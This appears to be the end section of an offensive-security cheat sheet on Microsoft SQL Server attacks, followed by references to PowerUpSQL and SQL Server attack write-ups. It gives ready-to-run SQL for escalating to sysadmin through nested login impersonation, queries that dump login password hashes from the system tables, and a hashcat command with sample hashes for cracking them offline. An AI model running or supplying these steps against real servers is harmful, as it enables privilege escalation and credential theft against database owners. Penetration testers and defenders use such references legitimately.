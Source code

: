 ### Exploiting Nested Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
```

### MSSQL Accounts and Hashes

```sql
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

Then crack passwords using Hashcat : `hashcat -m 1731 -a 0 mssql_hashes_hashcat.txt /usr/share/wordlists/rockyou.txt --force`

```ps1
131	MSSQL (2000)	0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578
132	MSSQL (2005)	0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe
1731	MSSQL (2012, 2014)	0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375
```


## References

* [PowerUpSQL Cheat Sheet & SQL Server Queries - Leo Pitt](https://medium.com/@D00MFist/powerupsql-cheat-sheet-sql-server-queries-40e1c418edc3)
* [PowerUpSQL Cheat Sheet - Scott Sutherland](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
* [Attacking SQL Server CLR Assemblies - Scott Sutherland - July 13th, 2017](https://blog.netspi.com/attacking-sql-server-clr-assemblies/)
* [MSSQL Agent Jobs for Command Execution - Nicholas Popovich - September 21, 2016](https://www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution)
